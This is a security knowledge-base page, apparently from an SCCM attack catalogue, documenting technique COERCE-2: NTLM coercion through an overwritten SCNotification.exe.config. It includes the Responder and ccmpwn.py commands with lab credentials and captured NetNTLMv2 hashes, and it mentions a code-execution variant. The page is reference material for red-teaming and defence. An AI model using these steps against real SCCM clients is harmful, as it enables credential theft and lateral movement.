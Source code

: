 # COERCE-2

## Description
NTLM coercion of currently logged on users via AppDomainManager injection

## MITRE ATT&CK TTPs
- [T1574.014](https://attack.mitre.org/techniques/T1574/014/) - Hijack Execution Flow

## Requirements
- Administratiive privileges on the SCCM client

## Summary
The CcmExec service executes SCNotification.exe for every user logged onto the SCCM client. Since SCNotification.exe is a .NET application, its configuration file can be modified to point to a .NET assembly on a UNC path, resulting in NTLM authentication coercion.

This technique requires administrative privileges on the SCCM client to overwrite the .NET assembly's configuration file (i.e., `C:\Windows\CCM\SCNotification.exe.config`).

Once the file is overwritten, the CcmExec service can be restarted to trigger the SCNotification.exe to attempt to load the remote assembly from an attacker-controlled server. The authentication can be coerced via SMB or HTTP.

This is automated by CcmPwn's `coerce` command.

Note: Rather than performing coercion, a payload can be uploaded and configured in SCNotification.exe.config to achieve code execution in the user context.

## Impact
This technique provides a method to compromise logged on users through NTLM relay or NetNTLM hash cracking.

## Defensive IDs
Andrew provides defensive considerations in his blog post on this topic. Since these detections are not SCCM-specific, we have not included them in Misconfiguration Manager but they can be found [here](https://web.archive.org/web/20250222182108/https://cloud.google.com/blog/topics/threat-intelligence/windows-session-hijacking-via-ccmexec#:~:text=Defensive%20Considerations).

## Examples
### CcmPwn Coerce
First, setup a listener such as Responder or ntlmrelayx. Here we use Responder:
```
┌──(kali㉿SCCM1-kali)-[~/impacket]
└─$ sudo responder -A -I eth0
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.5.0

<...SNIP...>

[+] Listening for events...    
```

Next, run `ccmpwn.py` with administrative credentials:
```
┌──(impacket)─(kali㉿SCCM1-kali)-[~/impacket/ccmpwn]
└─$ python3 ccmpwn.py ludus/domainadmin:'password'@10.2.10.11 coerce -computer 10.2.10.99 -method smb
____ ____ _  _ ___  _ _ _ _  _                                                                                                                                                                                                                         
|    |    |\/| |__] | | | |\ |                                                                                                                                                                                                                         
|___ |___ |  | |    |_|_| | \|                                                                                                                                                                                                                                        
v1.0.0                                                                                                                                                               
[*] Downloading original SCNotification.exe.config via SMB
[*] Uploading malicious SCNotification.exe.config via SMB
[*] Stopping CcmExec service. Waiting 20 seconds to restart service.
[*] Starting CcmExec service. Wait around 30 seconds for SCNotification.exe to run config file.
[*] Cleaning up SCNotification.exe.config     
```

Now wait for `ccmpwn.py` to restart the service and capture/relay the incoming NTLM authentication:
```
[SMB] NTLMv2-SSP Client   : 10.2.10.11
[SMB] NTLMv2-SSP Username : ludus\domainadmin
[SMB] NTLMv2-SSP Hash     : domainadmin::ludus:03489dd2ad202a57:6EFA74B3414AD598D2A8EADB735C48CD:01010000000<...SNIP...>030002E0032002E00310030002E00390039000000000000000000                    
[SMB] NTLMv2-SSP Client   : 10.2.10.11
[SMB] NTLMv2-SSP Username : ludus\domainuser
[SMB] NTLMv2-SSP Hash     : domainuser::ludus:5faf4f644ffb9899:5CF9B8944938B83B6BF5BF13019D53B1:010100000000<...SNIP...>030002E0032002E00310030002E00390039000000000000000000   
```

## References
- Andrew Oliveau, [SeeSeeYouExec: Windows Session Hijacking via CcmExec](https://cloud.google.com/blog/topics/threat-intelligence/windows-session-hijacking-via-ccmexec)
- Andrew Oliveau, [ccmpwn](https://github.com/mandiant/ccmpwn)
- lgandx, [Responder](https://github.com/lgandx/Responder)
- Fortra, [ntlmrelayx](https://github.com/fortra/impacket/blob/a63c6522d694a73195e15958734df7de53b43c11/examples/ntlmrelayx.py)